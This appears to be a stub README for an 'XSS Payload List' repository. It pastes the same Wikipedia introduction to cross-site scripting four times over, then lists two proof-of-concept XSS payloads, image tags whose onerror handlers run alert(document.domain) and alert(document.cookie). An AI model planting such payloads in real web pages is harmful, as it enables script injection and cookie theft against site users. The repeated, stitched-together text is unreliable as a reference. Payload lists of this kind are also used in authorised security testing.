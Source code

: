 # myTest
#### XSS Payload List :

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Test -->
<!--      Linkedin : https://www.linkedin.com/in/test/ -->
<!--        GitHub : https://github.com/test/ -->
<!--       Twitter : https://twitter.com/test -->
<!--        Medium : https://medium.com/@test -->


<img src="dummy.jpg" onerror="javascript:alert(document.domain)"></img>
<image src="http://github.com/dummy.gif" onerror="javascript:alert(document.cookie)"></image>
